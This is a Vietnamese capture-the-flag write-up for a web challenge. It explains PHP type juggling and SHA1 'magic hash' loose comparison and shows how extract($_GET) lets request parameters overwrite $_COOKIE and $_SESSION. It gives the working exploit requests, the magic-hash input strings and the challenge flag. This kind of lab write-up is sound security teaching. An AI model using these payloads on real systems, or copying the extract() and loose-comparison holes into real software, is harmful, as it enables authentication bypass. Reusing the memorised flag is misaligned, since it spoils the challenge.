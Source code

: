# Cookie and Milk 


[link-challenghe](https://battle.cookiearena.org/challenges/web/cookie-and-milk)

> Bài này có hai keyword được ghi dưới đề bài  : type juggling and hash magic 
>  đầu tiên là type juggling -> lỗi trong php từ phiên bản 8.x đổ xuống thì nó tùy còn ngữ cảnh mà sẽ ép  hai giá trị khi thực hiện so sánh qua if trong boolean expression về một loại chung , ví dụ như 
```
<?php
// Enter your code here, enjoy!
$a = "0d4545anh yêu em ";
$b = 0 ; 
var_dump($b == $a );

//output 
bool(true)
```
bởi nó sẽ dựa vào một bên chuỗi :  nếu 1 trong 2 là số , thì nó sẽ ép cả hai thành số , còn không cả hai là chuỗi thì nó sẽ có gắng ép thành numbers theo trang chủ php :>  !
 ![Alt text](image.png)
như thế kia vì ```$b=0``` là số thì ```$a``` cũng được ép thành số , lúc đó nó chỉ được coi là ```(int)$a``` và nó trở thành 0 cũng là số nên nó sẽ pass điều kiện ! 
> key word hash magic , khi các hàm mã như MD5 , SHA1 , .... mã ra một chuỗi "0e127617286... "  toàn là số đằng sau thì PHP sẽ hiểu là 0^127617 ... = 0 
[các bạn có thể xem thêm ở đây](https://github.com/spaze/hashes/blob/master/sha1.md)
vậy nên chỉ cần tìm hai chuỗi hash magic thì có phải nó đều được parse ra 0 thì 0 == 0  => return true

### BẮT ĐÀUA VÀO BÀI 
SOURCE CODE : 
```
<?php
include(__DIR__."/flag.php");
extract($_GET);
if (isset($_COOKIE['magic']) && isset($_SESSION['magic']))  {
    if ($_SESSION['magic'] === $_COOKIE['magic']) {
        echo "I love Cookie Han Hoan";
    } else if (sha1($_SESSION['magic']) == sha1($_COOKIE['magic'])) {
        echo $flag;
    }
} else {
    highlight_string(show_source(__FILE__));
}
?>
```
hàm extract sẽ lấy các key trong array và biến nó thành variable bằng cách thêm $ và lấy value được truyền theo ! 
Có thể ghi đè luôn các biến có sẵn như $_GET, $_POST,$_COOKIE,$_SESSION 
+nếu như bình thường thì ở phía client mà ko có hàm  ```extract()``` 
thì mình không thể can thiệp vào giá trị của ```$_SESSION``` được ! 
ban đầu mình sẽ truyền giá trị của hai biến $_SESSION và $_COOKIE giống nhau : 
```
GET /?_COOKIE[magic]=haha&_SESSION[magic]=haha HTTP/1.1
```
tham số này sau khi gặpp hàm extract()  sẽ thành  $_COOKIE['magic'] = 'haha' ,$_SESSION['MAGIC'] ="haha" , các value nhận qua biến global đều sẽ ở dạng string .
OUTPUT :
![Alt text](image-1.png)
giờ nhiệm vụ là tìm hai chuỗi hash theo sha1 mà đều ra 0 -> ra flag 
ở đây mình sẽ lấy 2 payload là : 
```
GET /?_COOKIE[magic]=aaroZmOk&_SESSION[magic]=aaK1STfY 
```
aaroZmOk:0e66507019969427134894567494305185566735
aaK1STfY:0e76658526655756207688271159624026011393 
->  và ta đã có flag 
``` CHH{TYpE_jU6gliNg_d5c3bd02e90fd038d98ad9c362715c47}```
